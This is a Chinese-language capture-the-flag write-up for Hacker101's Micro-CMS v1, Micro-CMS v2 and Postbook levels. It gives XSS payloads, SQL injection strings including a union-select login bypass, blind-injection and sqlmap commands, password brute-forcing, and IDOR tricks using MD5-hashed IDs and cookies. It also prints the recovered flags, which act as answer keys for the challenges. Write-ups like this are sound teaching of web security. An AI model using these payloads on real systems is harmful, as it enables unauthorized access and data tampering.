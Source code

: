 网址：
ctf.hacker101.com

关卡：
## 一、Micro-CMS v1
### （1）信息收集：
打开发现是个markdown管理系统。
可以创建markdown文件。可以发现这些文件前缀都是:
http://35.196.135.216:5001/795706216d/page/
通过最后的数字判断文件在哪个页面.可进行注入尝试。

而且发现网站中只能看到1,2
新创建的网页为6证明有东西被隐藏或者删除了。

发现还有几个动作,分别是：
page,edit,create

### （2）针对已知点进行攻击：
从弱到难：

先查看是否有隐藏信息:
输入3，4时都是400，而输入4时是403，代表4可能有问题:

http://35.196.135.216:5001/795706216d/page/4

试试其他动作看下，只有edit可试，尝试：
http://35.196.135.216:5001/795706216d/page/edit/4

真的发现了secret
My secret is 
```
^FLAG^a1fe3f4dbf0af943e60cccfd46d5a29bba3fea553f653f77a612a9b5606c2004$FLAG$
```

由于没有下一步提示，继续按照刚才的信息收集做：
尝试sql注入
对于page页面，
','%23,and 1均错误

再尝试edit页面，
加'里面出现flag:
http://35.196.135.216:5001/795706216d/page/edit/1'
证明这里不是有sql注入，而是出题人故意而为
^FLAG^e17cd93321a1c635890ed50fc48aa1e2334a10e01b5a8c9686448834a057ef7f$FLAG$

现在好像没思路了，再想想刚刚的信息收集，
edit,page,create
联想edit和create都有输入框，
尝试标题处edit xss:
<script>alert('1')</script>

^FLAG^ae1ef3b7de7e4d4e0b03e016783a7b1e3f8e7d6de33e481933a76476189cf189$FLAG$

发现create也同样的可以xss，

尝试内容处xss，
测试发现显示内容时<script>标签被过滤了。
此处怀疑点，接下来想办法绕xss。发现script标签被过滤了，

尝试用img
<img src="666" onclick="alert('1')"/>
查看源码发现flag:
flag="^FLAG^06a584e35f473b43e63cbe6da1fa8c2a84c4f938e3ca9b51251a52e5e5f218cf$FLAG$"

## 二、Micro-CMS v2

### （1）信息收集
动作:
edit,page,create,login

发现不登录可以使用page操作
登录后才能edit,create
而且根据cms内公告信息可以看出用户名为admin

登录出可能有问题
### (2)开始攻击

登录出尝试：
正常输入：admin 结果：Unknown user
输入 admin'  结果:报错，而且显示的是python编的代码
查询语句是：
'SELECT password FROM admins WHERE username=\'%s\'' % request.form['username'].replace('%', '%%')) == 0

所以查询语句是：
SELECT password FROM admins WHERE username='%s'


用
万能密码：admin' or 1=1 and '1'='1  结果：:Invalid password

直接猜密码（布尔盲注的方式），
admin' or (sql)(condition) '%s' and '1'='1 
用脚本
python 2_1.py -t admins -f password -w "1 limit 0,1"
破解出密码为magaret,
这时可以直接输入万能密码为账户，magaret为密码登录
还可以继续猜用户名
python 2_1.py -t admins -f username -w "1 limit 0,1"
账户名为norman

也可以用网上的sqlmap语句
sqlmap -u http://35.190.155.168:5001/c3c5d49d5d/login --method POST --data "username=admin&password=" -p username --dbs --dbms mysql --regexp "invalid password" --level 2

登录后得到第一个flag

^FLAG^990cf6fc09b8e936863cacf172a8dad20d59167fea8678868f556d2934e0cc48$FLAG$


现在尝试访问edit页面，可是发现登录了也无法访问，怎么回事呢？
抓包发现edit的时候会重定向到登录，但是重定向到登录有referer头也不起作用，还是出现flag1的界面
尝试edit的时候用其他方法，post方法
获取flag:
^FLAG^93f40103722bfad62cc30605157ce10827c2142fbda6d0e7fa40d406d38cdaf0$FLAG$


没有其他有用信息了，尝试爆整个库吧
python 2_1.py -t information_schema.tables -f table_name -w "table_schema=database()"
表名：
admins,pages
将整个库全部爆出也没有什么有用信息

再想想还有什么思路？

可以发现每次登录都是登录后出现flag，但是并不能编辑，那么难道就真的不能编辑吗？尝试不用数据库记录的登录而且绕过登录
账号:
' union select '1'#
密码：
1
发现成功登录了。而且没有显示主页面，返回home页面发现多一个private page，点击后出现flag:

^FLAG^e876c996811eef2faa820ba0b9eafb65fed0cb44e32fc5022d4d62ff47781cf6$FLAG$


## 三.关卡三 POSTBOOK

### （1） 信息收集
主页面提示：可以发公开文章和私有文章。
有一个注册页面和登录页面
注册进去后登录，

发现主页有两篇文章了，还有个发post按钮，可以设置文章为私有，还有my profile和settings两个按钮

其中一篇文章是user账户写的，还有一篇文章是注册时自动生成的。

点击文章进去发现url为
http://35.190.155.168:5001/693deb9543/index.php?page=view.php&id=1


### （2）开始攻击
1. 
最显著的攻击点应该是url里面的id和page
可能存在LFI或SQL注入

先尝试sql注入,用Burp模糊测试
发现sql注入没效果

测试LFI没效果

但是发现个奇怪的点，id=1是第一篇文章，id=3是第三篇文章。是不是是私有文章被隐藏了？

尝试id=2
出现flag：
^FLAG^ae5ebffc0f45f4e301a35f1c48a6e1ab0ab15d36b38d9d3a03679489edb6aaf4$FLAG$
题目意思看似隐藏的地方其实不安全（并没有真正隐藏）

猜测是否还有其他隐藏的文章？
burp爆破一下,发现id为946时又出现一个flag:
^FLAG^fade418d0bf44e5e7eb280009610a4cee822e35081fd64abff5527ad18538df0$FLAG$

2. 
尝试write post中xss注入
<script>alert('456')</script>
发现没用

尝试在private页面xss出现flag：
^FLAG^136fd360c8b07564f5108d69428d93a7c5e10f272df9606f687f24ff5f5e60b8$FLAG$
题目意思可以在别人的隐藏页面xss更有效果：



3.尝试登录处sql注入
sql注入无果

4.弱口令
猜测管理员是user，因为它发的文章是Hello Everyone!
尝试弱口令登录
用Burp的密码模糊测试.得出密码为password
登录出现flag
^FLAG^b805c0a8b38d6e93be541c8a92a24a94a73a27019d8d52e13f2993d4c4cc704b$FLAG$

5.因为有多个用户，可以尝试下是否有越权问题
越权查看已经知道了，
看下是否有越权删除和越权编辑

抓删除包:
```
GET /b52a640371/index.php?page=delete.php&id=e4da3b7fbbce2345d7772b0674a318d5 HTTP/1.1
Host: 35.190.155.168:5001
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.13; rv:62.0) Gecko/20100101 Firefox/62.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Referer: http://35.190.155.168:5001/b52a640371/index.php?page=home.php
Cookie: id=eccbc87e4b5ce2fe28308fd9f2a7baf3
Connection: close
Upgrade-Insecure-Requests: 1
```

发现传入的参数有id，而且id好像被加密了，32位，查了下是md5加密
改为id=（2的hash）试试？
发现id为2的被删除了
而且新flag出现了
^FLAG^7d1afa858c305ade10f35272c6ed4067853e94d15f3c9729edf92f4d08d1aa3d$FLAG$

同时也发现cookies中的id也是加密的,而且是当前用户的id（3,当前用户是我创建的第二个用户）
可以知道服务器是通过cookie来验证身份的，用别人id越权创建试下。
出现flag
^FLAG^f6614ed7527fe8333dbfb00a21480563db95a6650186aaa420e9243a16add752$FLAG$

最后一个flag，题目提示试着伪造id为1登陆




